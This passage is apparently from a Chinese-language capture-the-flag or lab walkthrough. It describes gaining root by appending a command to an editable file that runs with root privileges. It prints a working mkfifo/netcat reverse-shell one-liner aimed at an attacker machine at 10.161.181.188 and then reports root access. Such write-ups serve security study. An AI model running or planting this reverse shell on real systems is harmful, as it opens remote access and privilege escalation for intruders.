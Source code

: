 发现突破口了！虽然这几个文件没啥好看的，但是最后一个文件可是root权限的，而且我们还可以进行编辑！尝试反弹一个shell到kali！

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.161.181.188 2345 >/tmp/f" >> timeclock
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403251401786.png" alt="image-20240325140037837" style="zoom:50%;" />

成功拿到root！！
